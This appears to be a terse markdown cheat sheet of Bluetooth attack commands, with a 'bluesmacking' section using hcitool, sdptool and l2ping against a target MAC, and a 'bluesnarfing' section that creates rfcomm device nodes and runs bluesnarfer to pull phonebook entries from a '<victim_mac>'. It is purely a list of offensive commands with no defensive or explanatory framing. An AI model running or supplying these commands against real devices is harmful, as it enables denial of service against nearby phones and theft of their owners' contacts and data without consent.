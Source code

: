 # bluetooth

## bluesmacking

```
hcitool -a
hcitool hci0 up
hcitool scan
hcitool inq
sdptool browser <MAC_ADDRESS>
l2ping <mac_address>
```

## bluesnarfing

```
mkdir -p /dev/bluetooth/rfcomm
mknod -m 666 /dev/bluetooth/rfcomm/0 c 216 0
mknod --mode=666 /dev/rfcomm0 c 216 0
hciconfig -i hci0 up
hciconfig hci0
l2ping <victim_mac>
sdptool browser --tree -l2cap <mac>
bluesnarfer -r 1-100 -C 7 -b <mac>
```
